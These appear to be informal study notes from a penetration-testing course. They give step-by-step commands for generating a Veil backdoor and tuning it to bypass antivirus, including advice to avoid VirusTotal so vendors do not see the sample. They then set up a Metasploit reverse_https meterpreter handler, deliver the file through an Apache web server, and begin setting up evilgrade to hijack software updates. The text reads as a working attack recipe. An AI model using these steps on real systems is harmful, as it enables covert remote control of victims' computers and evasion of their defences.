 `set PROCESSORS 1`

`set SLEEP 6 `

`options`

generate the backdoor with following command

`generate`

name the backdoor after running the above command, copy the address where the backdoor is stored(executable written to value)

virus total shares the scanning result with antivirus, so donot use that. use no distribute and scan the file.

update veil. antivirus updates always and veil too. so we need to update veil to get better results. we need to play around with payloads and options to bypass all antivirus.

the backdoor does not create a port in target machine, it actually connects from the target computer to our computer.By doing that it will bypass firewall an look less suspicious. for that we need to open a port in our computer. meterpreteris programmed by the people who made metasploit. that's why we are using metasploit to listen to that connection

`msfconsole`

to listen to incoming connection run the following command

`use exploit/multi/handler`

`show options`

now we will see that in payload options our target is windows, which is correct, but we are running meterpreter reverse http not reverse tcp, so we nned to change this.

`set PAYLOAD windows/meterpreter/reverse_https`

this payload should correspond to the payload that you choose in the backdoor.

`show options`

`exploit`

to make sure that it works, we are goin to use basic delivery method.watch 11folder video6. kali linux website /var/www/html, here website files are stored.copy the backdoor file and paste it here in a folder. to start kali web serve, run the following command

`service apache2 start`
 
go to website from windows machine and browse the file location. you will see the file. run the following in kali meterpreter console and it will show the system info of the target machine

`sysinfo`

### smart delivery method after downloading and installing evilgrade

starting evilgrade

`./configure`

checking programs that can be hijacked

